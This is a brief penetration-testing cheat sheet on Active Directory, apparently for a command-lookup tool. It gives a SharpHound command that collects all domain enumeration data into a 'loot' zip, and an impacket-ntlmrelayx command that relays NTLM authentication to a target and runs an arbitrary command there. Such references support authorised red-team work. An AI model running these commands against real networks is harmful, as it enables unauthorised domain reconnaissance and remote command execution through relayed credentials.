 # Active Directory

% bloodhound, Active directory enumeration

## SharpHound - run SharpHound collector
#platform/windows #target/remote #cat:4Kp3n
```
.\SharpHound.exe --collectionmethods All -d <domain> --zipfilename <filename|loot.zip>
```

## impacket - NTLM relay
#platform/windows #target/serve #cat:4Kp3n
```
sudo impacket-ntlmrelayx --no-http-server -smb2support -t <ip_local> -c <command>```